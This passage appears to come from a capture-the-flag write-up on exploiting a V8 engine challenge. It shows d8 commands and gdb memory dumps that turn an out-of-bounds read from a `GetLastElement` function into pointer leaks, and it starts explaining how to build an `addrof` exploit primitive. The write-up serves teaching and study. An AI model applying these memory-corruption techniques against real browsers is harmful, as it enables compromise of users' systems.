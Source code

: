 
`GetLastElement` returns a float that doesn’t mean much to me:

    
    
    d8> a.GetLastElement()
    4.73859563718219e-270
    

However, if I convert to back to an int (and then to hex, I recognize the two
32-bit pointers):

    
    
    d8> ftoi(a.GetLastElement())
    577594250143996169n
    d8> ftoi(a.GetLastElement()).toString(16)
    "80406e908241909"
    

I can drop into `gdb` and look at the object, knowing it’s third item is the
pointer to the elements array:

    
    
    gef➤  x/4xw 0x2b4108086155-1
    0x2b4108086154: 0x08241909      0x080406e9      0x0808613d      0x00000004
    

When I add the high 32-bits and subtract one, it shows the pointer to the map,
the size, the two floats (each two words), and then the next two pointers
which are the original map and properties, and what returned from
`GetLastElement`:

    
    
    gef➤  x/8xw 0x2b410808613d-1
    0x2b410808613c: 0x08040a3d      0x00000004      0x9999999a      0x3ff19999
    0x2b410808614c: 0x9999999a      0x40019999      0x08241909      0x080406e9
    

#### addrof

I will use these vulnerable functions to create my first exploit primitive,
`addrof`. `addrof` is a function that takes an object and returns its address
in memory. The exploit here will rely on the out of bounds read and write to
mess with the maps for various objects. Because of the nature of the functions
that allow my out of bounds access and pointer compression, there’s a bit of a
curve ball as compared to [Faith’s writeup of
oob-v8](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/). When I create
an object like `var a = [1.1]`, memory looks like:

    
    
    | Map Ptr | BS Length | 1.1                |   <-- FixedArray Object
    | Map Ptr | Properties| Elements ptr | Len |   <-- JSArray Object
    

So when I call `GetLastElement`, it casts all the memory as 64-bit floats, and
then reads past value and returns the map pointer and the properties. So far,
just like the post.
